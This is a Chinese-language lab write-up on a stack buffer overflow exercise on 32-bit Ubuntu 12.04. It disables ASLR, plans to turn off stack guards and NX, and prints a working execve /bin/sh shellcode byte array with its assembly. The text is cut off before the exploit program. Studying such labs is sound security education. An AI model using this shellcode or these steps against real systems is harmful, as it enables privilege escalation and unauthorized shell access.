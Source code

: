 ```yaml
---
title: 入门-缓冲区溢出与利用
date: 2018-12-07 15:22:38
tags: 缓冲区溢出 实验
---
```

## 实验原理
利用 strcpy(buf,str) 导致的缓冲区溢出，精心构造str溢出后，覆盖原程序的返回地址，让程序跳转至new_addr,去指定位置执行存放的shellcode，获得root权限

重点：

 - str的构造->计算精确覆盖位置
 - shellcode 编写->提权功能，并转化成汇编
 - exploit 编写

> *Q: 这和控制流劫持一样吗？有啥区别？会不会控制流劫持是劫持eip？这个只是覆盖返回地址，不太一样？查一下啊！*

## 实验步骤

### 1. 环境搭建
1) Ubuntu12.04 32位 （http://releases.ubuntu.com/12.04.5/ubuntu-12.04.5-desktop-i386.iso）
2) 关闭ASLR

    sudo sysctl -w kernel.randomize_va_space = 0
    sudo sysctl kernel.randomize_va_space (用来查当前值是多少，0：关闭ASLR；***1：开启堆随机化？2：开启栈随机化？***)

3）stack-guard-protection和NX在后续gcc编译时关闭

### 2. 脚本编写
1） shellcode：
```
#include <stdio.h>
int main( )
{ 
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL); //主要功能：获得一个shell
}
```
将shellcode转换成汇编形式，并编写call_shellcode调用代码，编译验证能否成功得到shell

*【tips】: 如何编写shellcode（之后单写一篇吧）*

-  call_shellcode.c
```
        /* call_shellcode.c  */
        /*A program that creates a file containing code for launching shell*/
        #include <stdlib.h>
        #include <stdio.h>
        
        const char code[] =
          "\x31\xc0"             /* xorl    %eax,%eax              */
          "\x50"                 /* pushl   %eax                   */
          "\x68""//sh"           /* pushl   $0x68732f2f            */
          "\x68""/bin"           /* pushl   $0x6e69622f            */
          "\x89\xe3"             /* movl    %esp,%ebx              */
          "\x50"                 /* pushl   %eax                   */
          "\x53"                 /* pushl   %ebx                   */
          "\x89\xe1"             /* movl    %esp,%ecx              */
          "\x99"                 /* cdq                            */
          "\xb0\x0b"             /* movb    $0x0b,%al              */
          "\xcd\x80"             /* int     $0x80                  */
        ;  //shellcode反汇编而成
```